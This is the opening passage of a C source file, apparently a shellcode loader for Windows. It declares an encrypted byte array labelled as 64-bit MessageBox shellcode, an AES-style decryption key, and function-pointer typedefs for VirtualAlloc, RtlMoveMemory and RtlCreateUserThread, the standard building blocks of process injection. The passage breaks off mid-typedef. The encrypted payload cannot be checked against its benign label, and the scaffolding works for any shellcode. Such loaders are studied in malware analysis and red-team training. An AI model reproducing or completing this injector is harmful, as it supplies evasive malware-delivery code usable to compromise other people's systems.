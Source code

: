
## Code 
```C
#include <winternl.h>
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <wincrypt.h>
#pragma comment(lib, "crypt32.lib")
#pragma comment(lib, "advapi32")

// MessageBox shellcode - 64-bit
unsigned char payload[] = {0x23, 0xe5, 0x84, 0x36, 0xce, 0x23, 0x3b, 0xe7, 0x55, 0x66, 0x8, 0x50, 0xf3, 0x44, 0xc2, 0xe8, 0x90, 0xf0, 0x8, 0x60, 0x2c, 0x2a, 0xcc, 0x7c, 0xf1, 0x6a, 0xa5, 0x48, 0x10, 0x57, 0x10, 0x7e, 0x10, 0x24, 0x5, 0x90, 0x40, 0x14, 0x7d, 0xd3, 0xba, 0x4e, 0x7f, 0x5, 0xb7, 0x17, 0xa3, 0x4, 0x91, 0x5, 0x97, 0xd7, 0xcb, 0xa2, 0x34, 0x7c, 0x90, 0xc9, 0x4f, 0x65, 0x9d, 0x18, 0x29, 0x15, 0xd8, 0xf9, 0x1d, 0xed, 0x96, 0xc4, 0x1f, 0xee, 0x2c, 0x80, 0xc8, 0x15, 0x4b, 0x68, 0x46, 0xa0, 0xe8, 0xc0, 0xb8, 0x5f, 0x5e, 0xd5, 0x5d, 0x7d, 0xd2, 0x52, 0x9b, 0x20, 0x76, 0xe0, 0xe0, 0x52, 0x23, 0xdd, 0x1a, 0x39, 0x5b, 0x66, 0x8c, 0x26, 0x9e, 0xef, 0xf, 0xfd, 0x26, 0x32, 0x30, 0xa0, 0xf2, 0x8c, 0x2f, 0xa5, 0x9, 0x2, 0x1c, 0xfe, 0x4a, 0xe8, 0x81, 0xae, 0x27, 0xcf, 0x2, 0xaf, 0x18, 0x54, 0x3c, 0x97, 0x35, 0xfe, 0xaf, 0x79, 0x35, 0xfa, 0x99, 0x3c, 0xca, 0x18, 0x8d, 0xa1, 0xac, 0x2e, 0x1e, 0x78, 0xb6, 0x4, 0x79, 0x5e, 0xa7, 0x6d, 0x7f, 0x6e, 0xa3, 0x34, 0x8b, 0x68, 0x6d, 0x2a, 0x26, 0x49, 0x1e, 0xda, 0x5e, 0xe4, 0x77, 0x29, 0x6e, 0x15, 0x9, 0x69, 0x8b, 0x8d, 0xbd, 0x42, 0xb6, 0xd9, 0xb0, 0x90, 0xd8, 0xa1, 0xb9, 0x37, 0x80, 0x8c, 0x5d, 0xaf, 0x98, 0x11, 0xef, 0xe1, 0xcf, 0xec, 0xe7, 0xc5, 0x58, 0x73, 0xf, 0xce, 0x1e, 0x27, 0x9e, 0xc0, 0x8a, 0x36, 0xd5, 0x6b, 0x9d, 0x52, 0xe, 0x68, 0x30, 0x7c, 0x45, 0x7c, 0xb3, 0xc1, 0x3f, 0x88, 0xdc, 0x78, 0x2, 0xe6, 0xbf, 0x45, 0x2d, 0x56, 0x76, 0x15, 0xc8, 0x4c, 0xe2, 0xcd, 0xa4, 0x46, 0x38, 0x6b, 0x41, 0x2b, 0xdf, 0x24, 0x2c, 0xf1, 0x82, 0x78, 0xd1, 0xc4, 0x83, 0x7f, 0x33, 0xb5, 0x8c, 0xf7, 0xac, 0x30, 0x14, 0x0, 0x6f, 0xba, 0xf7, 0x13, 0x51, 0x6a, 0x17, 0x1c, 0xf7, 0xcd, 0x43, 0x79, 0xc2, 0x57, 0xa0, 0x9c, 0x7b, 0x12, 0xce, 0x45, 0x41, 0x4e, 0xb7, 0x6b, 0xbd, 0x22, 0xc, 0xfb, 0x88, 0x2a, 0x4c, 0x2, 0x84, 0xf4, 0xca, 0x26, 0x62, 0x48, 0x6e, 0x9b, 0x3b, 0x85, 0x22, 0xff, 0xf0, 0x4f, 0x55, 0x7b, 0xc3, 0xf4, 0x9d, 0x2d, 0xe8, 0xb6, 0x44, 0x4a, 0x23, 0x2d, 0xf9, 0xe1, 0x6, 0x1c, 0x74, 0x23, 0x6, 0xdb, 0x3c, 0x3c, 0xa6, 0xce, 0xcf, 0x38, 0xae, 0x87, 0xd1, 0x8};
unsigned char key[] = {0xc0, 0xa6, 0x8b, 0x1b, 0x59, 0x92, 0xcf, 0x6b, 0xef, 0x96, 0xe7, 0xd7, 0x33, 0x65, 0xda, 0x84};

unsigned int payload_len = sizeof(payload);

// http://undocumented.ntinternals.net/UserMode/Undocumented%20Functions/Executable%20Images/RtlCreateUserThread.html
typedef struct _CLIENT_ID
{
    HANDLE UniqueProcess;
    HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef LPVOID(WINAPI *VirtualAlloc_t)(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD flAllocationType,
    DWORD flProtect);

typedef VOID(WINAPI *RtlMoveMemory_t)(
    VOID UNALIGNED *Destination,
    const VOID UNALIGNED *Source,
    SIZE_T Length);

typedef FARPROC(WINAPI *RtlCreateUserThread_t)(
    IN HANDLE ProcessHandle,
    IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
    IN BOOLEAN CreateSuspended,
```